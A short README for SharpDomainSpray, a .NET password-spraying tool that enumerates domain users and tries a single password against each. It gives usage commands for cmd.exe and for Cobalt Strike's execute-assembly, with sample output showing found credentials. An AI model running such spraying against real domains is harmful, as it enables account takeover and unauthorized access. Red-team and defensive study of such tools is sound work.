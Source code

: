 # SharpDomainSpray


SharpDomainSpray is a very simple password spraying tool written in .NET. It takes a password then finds users in the domain and attempts to authenticate to the domain with that given password.

## Usage 

cmd.exe
```
C:\> SharpDomainSpray.exe test12345!

User: Administrator Password is: test12345!

User: TestUser Password is: test12345!
```
Cobalt Strike
```
> execute-assembly /path/to/SharpDomainSpray.exe test12345!

User: Administrator Password is: test12345!

User: TestUser Password is: test12345!
```
## Author

Tom Kallo
